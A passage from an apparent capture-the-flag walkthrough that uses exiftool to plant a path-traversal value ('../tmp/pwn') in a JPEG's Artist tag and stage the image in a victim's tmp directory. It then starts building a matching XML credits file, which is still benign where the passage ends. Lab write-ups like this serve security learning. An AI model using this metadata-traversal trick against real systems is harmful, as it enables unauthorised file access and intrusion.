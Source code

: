2. Now we add the Artist tag with a path of directory that has a WRITE access.
```bash
$ exiftool -Artist="../tmp/pwn" jpg_exploit.jpg 
    1 image files updated     
└─$ exiftool jpg_exploit.jpg                     
ExifTool Version Number         : 12.49
File Name                       : jpg_exploit.jpg
Directory                       : .
File Size                       : 4.9 MB
File Modification Date/Time     : 2022:11:16 10:32:33-05:00
File Access Date/Time           : 2022:11:16 10:32:33-05:00
File Inode Change Date/Time     : 2022:11:16 10:32:33-05:00
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
Exif Byte Order                 : Big-endian (Motorola, MM)
X Resolution                    : 72
Y Resolution                    : 72
Resolution Unit                 : inches
Artist                          : ../tmp/pwn
Y Cb Cr Positioning             : Centered
Image Width                     : 6720
Image Height                    : 4480
Encoding Process                : Progressive DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 6720x4480
Megapixels                      : 30.1
```

3. Finally, Send the **.jpg** file to victim's tmp directory.

Now, We go for the **.xml** file:

1. We construct the **.xml** as the ones the already exist to avoid any confliction in the structure.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<credits>
  <author>woodenk</author>
  <image>
    <uri>/img/greg.jpg</uri>
    <views>1</views>
  </image>
  <image>
    <uri>/img/hungy.jpg</uri>
    <views>0</views>
  </image>
  <image>
    <uri>/img/smooch.jpg</uri>
    <views>0</views>
  </image>
  <image>
    <uri>/img/smiley.jpg</uri>
    <views>0</views>
  </image>
  <totalviews>1</totalviews>
</credits>
```
